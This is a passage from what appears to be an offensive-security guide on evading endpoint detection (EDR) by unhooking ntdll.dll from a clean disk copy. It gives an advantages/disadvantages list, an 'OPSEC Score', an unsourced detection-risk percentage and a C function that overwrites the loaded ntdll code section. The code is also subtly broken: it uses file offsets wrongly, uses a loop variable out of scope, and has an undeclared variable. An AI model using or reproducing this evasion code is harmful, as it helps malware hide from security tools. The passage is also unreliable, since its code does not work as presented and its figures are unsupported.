 ### Pattern 1: Disk-Based Unhooking (Traditional)

**Concept**: Read clean ntdll.dll from `C:\Windows\System32\ntdll.dll` and copy clean syscall stubs to the currently loaded (hooked) ntdll.

**Advantages**:
- Simple implementation
- Works on all Windows versions
- Well-documented technique

**Disadvantages**:
- **EDRs monitor NtReadFile** for ntdll.dll reads (major detection vector)
- Disk I/O creates audit logs
- File hash verification can detect tampering
- Detection risk: 15-20%

**OPSEC Score**: 6/10

**Code Pattern**:
```c
BOOL TraditionalUnhook() {
    // 1. Read clean ntdll from disk
    HANDLE hFile = CreateFileW(L"C:\\Windows\\System32\\ntdll.dll",
                              GENERIC_READ, FILE_SHARE_READ, NULL,
                              OPEN_EXISTING, 0, NULL);

    DWORD dwSize = GetFileSize(hFile, NULL);
    PVOID pCleanNtdll = HeapAlloc(GetProcessHeap(), 0, dwSize);
    ReadFile(hFile, pCleanNtdll, dwSize, &dwRead, NULL);
    CloseHandle(hFile);

    // 2. Parse PE headers to find .text section
    PIMAGE_DOS_HEADER pDos = (PIMAGE_DOS_HEADER)pCleanNtdll;
    PIMAGE_NT_HEADERS pNt = (PIMAGE_NT_HEADERS)((BYTE*)pCleanNtdll + pDos->e_lfanew);
    PIMAGE_SECTION_HEADER pSection = IMAGE_FIRST_SECTION(pNt);

    PVOID pTextSection = NULL;
    SIZE_T szTextSize = 0;

    for (WORD i = 0; i < pNt->FileHeader.NumberOfSections; i++) {
        if (memcmp(pSection[i].Name, ".text", 5) == 0) {
            pTextSection = (BYTE*)pCleanNtdll + pSection[i].VirtualAddress;
            szTextSize = pSection[i].Misc.VirtualSize;
            break;
        }
    }

    // 3. Copy clean .text to hooked ntdll
    HMODULE hNtdll = GetModuleHandleW(L"ntdll.dll");
    PVOID pHookedText = (BYTE*)hNtdll + pSection[i].VirtualAddress;

    DWORD dwOldProtect;
    VirtualProtect(pHookedText, szTextSize, PAGE_EXECUTE_READWRITE, &dwOldProtect);
    memcpy(pHookedText, pTextSection, szTextSize);
    VirtualProtect(pHookedText, szTextSize, PAGE_EXECUTE_READ, &dwOldProtect);

    HeapFree(GetProcessHeap(), 0, pCleanNtdll);
    return TRUE;
}
```
